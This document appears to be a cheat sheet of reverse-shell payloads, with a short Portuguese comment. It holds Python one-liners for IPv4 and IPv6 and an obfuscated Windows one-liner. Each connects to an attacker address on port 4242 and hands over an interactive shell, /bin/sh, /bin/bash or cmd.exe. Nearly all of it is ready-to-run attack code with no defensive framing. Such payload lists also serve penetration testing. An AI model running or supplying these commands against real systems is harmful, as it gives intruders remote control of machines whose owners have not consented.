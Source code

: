 IPv4

```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

IPv4

Esse é o que eu mais uso
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

IPv6

```sh
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

IPv6

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python Windows

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```
